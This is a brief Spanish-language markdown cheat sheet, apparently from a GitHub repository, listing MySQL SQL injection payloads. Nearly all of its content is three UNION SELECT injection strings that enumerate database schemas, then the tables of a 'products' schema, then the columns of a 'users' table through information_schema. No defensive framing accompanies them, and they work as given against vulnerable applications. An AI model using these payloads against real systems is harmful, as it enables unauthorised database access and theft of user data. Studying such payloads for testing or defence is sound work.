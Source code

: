 # SQL Injection

## MySQL

### Listar bbdd

~~~
' union select schema_name,null
~~~

### Listar tablas

~~~
' union select table_name,null from information_schema.tables where table_schema='products'-- -
~~~

### Listar columnas

~~~
' union select column_name,null from information_schema.columns where table_schema='products' and table_name='users'-- -
~~~

